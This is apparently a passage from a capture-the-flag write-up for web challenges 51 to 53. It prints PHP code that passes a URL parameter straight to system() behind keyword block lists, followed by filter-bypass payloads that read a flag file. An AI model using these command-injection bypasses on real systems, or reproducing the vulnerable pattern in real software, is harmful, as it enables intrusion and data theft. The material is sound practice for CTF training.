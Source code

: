 **payload**

```
?c=ls||
?c=tac<>fl\ag.php||
```

------

#### web51

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}

```

**payload**

```
?c=t\ac<>fl\ag.php||
```

------

#### web52

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}

```

**payload**

```
?c=ls${IFS}/||
?c=ta\c${IFS}/fl\ag||
```

------

#### web53

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}

```
